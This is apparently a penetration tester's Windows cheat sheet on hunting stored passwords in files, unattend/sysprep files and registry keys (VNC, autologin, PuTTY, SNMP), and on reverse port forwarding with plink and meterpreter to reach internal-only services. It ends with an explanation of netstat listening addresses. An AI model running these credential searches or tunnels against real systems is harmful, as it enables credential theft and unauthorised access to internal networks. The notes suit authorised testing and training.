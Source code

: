# Password & Port Forwarding

## Password

### In Files

Search for the password stored in the cleared text in files.

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

These are common files to find them in. They might be base64-encoded. So look out for that.

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```
### In Registry

```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Port Forwarding

### Service only available from inside

*Sometimes there are services that are only accessible from inside the network.* 

For example a MySQL server might not be accessible from the outside, for security reasons. 

It is also common to have different administration applications that is only accessible from inside the network/machine. Like a printer interface, or something like that. 

These services might be more vulnerable since they are not meant to be seen from the outside.

```
netstat -ano
```

Look for **LISTENING/LISTEN**. Compare that to the scan you did from the outside.  

Does it contain any ports that are not accessible from the outside?

If that is the case, maybe you can make a remote forward to access it.

```
# Port forward using plink
plink.exe -l root -pw mysecretpassword -R 445:127.0.0.1:445 192.168.0.101

# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

So how should we interpret the netstat output?

**Local address 0.0.0.0**  

Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

**Local address 127.0.0.1**  

Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. 

**Local address 192.168.1.9**  

Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. 





